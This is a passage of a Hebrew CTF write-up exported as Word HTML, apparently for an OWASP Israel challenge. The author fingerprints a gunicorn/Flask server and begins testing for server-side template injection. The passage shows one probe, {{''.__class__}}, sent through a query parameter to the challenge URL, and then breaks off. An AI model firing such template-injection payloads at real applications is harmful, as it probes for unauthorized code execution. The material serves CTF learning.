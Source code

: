 לב אליו הוא שהאתר פגיע ל-</span><span lang=EN-US dir=LTR>XSS</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR><img border=0 width=602 height=184
id="Picture 33" src="images/image034.jpg"></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אולם, הכיוון הזה לא
הוביל לשום מקום.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>המשכתי לחפש, ואחד מהדברים
שקפצו לי לעין היה השרת של האתר:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR><img border=0 width=262
height=123 id="Picture 34" src="images/image035.png"></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>חיפשתי </span><span
lang=EN-US dir=LTR>gunicorn </span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> ומצאתי ש-</span><span
lang=en-IL dir=LTR>The Gunicorn &quot;Green Unicorn&quot; is a Python Web
Server Gateway Interface HTTP server</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם כך, האתר כנראה
נכתב בפייתון, ורוב הסיכויים שהוא משתמש ב-</span><span lang=EN-US dir=LTR>Framework</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> הפופולרי </span><span lang=EN-US dir=LTR>Flask</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מצאתי את ה</span><span
class=MsoHyperlink><span lang=EN-US><a
href="https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html"><span
lang=HE style='font-family:"Arial",sans-serif'>דף הזה</span></a></span></span><span
lang=HE style='font-family:"Arial",sans-serif'> אודות הזרקת קוד ל-</span><span
lang=EN-US dir=LTR>Flask Templates</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>, והתחלתי לנסות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הטבלה הבאה מציגה את
הקלט והפלט של גישה לכתובת הבאה:</span></p>
<p class=MsoNormal><span lang=EN-US>http://challenges.owaspil.ctf.today:8087/get_recommendation?name=a&amp;recommender=<b>&lt;input&gt;</b></span></p>
<table class=MsoTableGrid border=0 cellspacing=0 cellpadding=0 width="100%"
 style='border-collapse:collapse;border:none;width:100%;' dir=ltr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span dir=LTR></span><b><span lang=EN-US><span dir=LTR></span>&lt;input&gt;</span></b></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border:solid windowtext 1.0pt;
  border-left:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span dir=LTR></span><b><span lang=EN-US><span dir=LTR></span>&lt;output&gt;</span></b></p>
  </td>
 </tr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>{{''.__class__}}</span></p>
  </td>